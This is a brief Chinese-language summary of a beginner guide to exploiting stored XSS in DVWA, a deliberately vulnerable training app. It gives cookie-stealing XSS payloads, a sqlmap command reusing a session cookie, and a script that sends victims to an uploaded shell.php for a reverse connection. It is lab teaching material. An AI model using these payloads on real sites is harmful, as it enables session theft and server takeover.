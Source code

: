 ## DVWA中存储的XSS开发（初学者指南）[^1]

`<script>alert(XSS)</script>`

`<script>alert(document.cookie)</script>`

### **使用XSS进行SQL注入**

`sqlmap -u "//192.168.1.8/dvwa/vulnerbilities/sqli/?id=1&submit=submit" --cookie="security=low; PHPSESSID=r12pk67cuq3s7eo4iktb88sud2" –dbs --batch`

### **使用XSS获得Shell访问**

`<script>window.location="//192.168.1.8/dvwa/hackable/upload/shell.php"</script>` [^2]

[原文](https://www.hackingarticles.in/stored-xss-exploitation-dvwa-beginner-guide/)

---

[^1]: 跨站点脚本（XSS）攻击是一种注入类型，其中恶意脚本被注入可信网站。当攻击者使用Web应用程序将恶意代码（通常以浏览器端脚本的形式）发送给不同的最终用户时，就会发生XSS攻击。最终用户的浏览器无法知道该脚本不应该被信任，并将执行该脚本。因为它认为脚本来自可靠来源，所以恶意脚本可以访问任何cookie，会话令牌或浏览器保留并与该站点一起使用的其他敏感信息。**存储型XSS**通常在用户输入存储在目标服务器上时发生，例如在数据库中，在消息论坛，访问者日志，注释字段等中。然后受害者能够从Web应用程序检索存储的数据而不是数据在浏览器中可以安全呈现。随着HTML5和其他浏览器技术的出现，我们可以设想攻击有效负载永久存储在受害者的浏览器中，例如HTML5数据库，并且永远不会被发送到服务器
[^2]: 在脚本中注入上传文件的路径，该路径将保存在服务器中。当用户点击它以阅读消息时，他将执行我们的shell.php文件，该文件在攻击者机器上提供反向连接